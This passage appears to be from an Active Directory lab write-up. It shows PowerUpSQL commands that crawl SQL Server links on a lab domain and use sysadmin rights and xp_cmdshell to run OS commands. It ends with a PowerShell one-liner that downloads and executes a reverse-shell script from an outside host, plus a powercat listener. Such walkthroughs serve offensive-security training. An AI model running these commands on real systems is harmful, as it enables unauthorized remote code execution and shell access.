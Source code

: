 ```sh
OSArchitecture : X64

OsMachineType : ServerNT

OSVersionName : Windows Server 2016 Standard

OsVersionNumber : SQL

CurrentLogin : nebula\uatadmin

IsSysadmin : Yes

ActiveSessions : 1

  

PS C:\bilal\AD>  Get-SQLServerLinkCrawl -Instance devsrv.nebula.cosmos.local -Verbose

VERBOSE: devsrv.nebula.cosmos.local : Connection Success.

VERBOSE: devsrv.nebula.cosmos.local : Connection Success.

VERBOSE: ------------------------------------------

VERBOSE: Server: DEVSRV

VERBOSE: ------------------------------------------

VERBOSE: - Link Path to server: DEVSRV
```

luckily for me, i have sysadmin rights on this instance. meaning i can run OS commands, like `whoami` on the machine. 

```sh
PS C:\bilal\AD>  Invoke-SQLOSCmd -Instance devsrv.nebula.cosmos.local -Command whoami

  

ComputerName                 Instance                    CommandResults

------------                   --------                    ---------

devsrv.nebula.cosmos.local   devsrv.nebula.cosmos.local  nebula\devsqladmin
```


i'm now going to build a backdoor into this instance. to do this, i'll set up a PowerCat listener and use a PowerShell reverse shell script.

```sh
PS C:\bilal\AD> Get-SQLServerLinkCrawl -Instance devsrv.Nebula.Cosmos.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.10.1/Invoke-PowerShellTCP-reverse.ps1'')"'

PS C:\bilal\AD> Invoke-SQLOSCmd -Instance devsrv.nebula.cosmos.local -Command "powershell iex (New-Object Net.WebClient).DownloadString('http://172.16.10.1/Invoke-PowerShellTcp-reverse.ps1')"

ComputerName Instance CommandResults

------------ -------- --------------

devsrv.nebula.cosmos.local devsrv.nebula.cosmos.local


PS C:\bilal\AD>  powercat -l -v -p 443 -t 555555
```
